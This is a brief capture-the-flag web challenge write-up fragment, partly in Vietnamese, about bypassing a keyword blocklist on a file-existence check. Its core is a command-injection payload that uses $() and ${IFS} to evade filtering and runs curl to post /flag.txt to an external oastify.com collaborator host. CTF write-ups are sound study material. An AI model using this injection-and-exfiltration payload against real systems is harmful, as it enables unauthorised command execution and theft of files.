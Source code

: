 The system will check whether the file exists or not. We have also implemented blocklist keywords to detect hackers.

Flag is located on /flag.txt\
Format FLAG: CHH{XXX}

 ```$(curl${IFS}-d${IFS}@/flag.txt${IFS}m5s94lasm4fms1hti1wtybpcm3sugm4b.oastify.com)```
 
 Hình:\
 ![image](https://github.com/minhngoc9119/WEB_CTF/assets/34714073/ae380e4b-8a9d-4ee4-ac2a-6fd97ee65335)
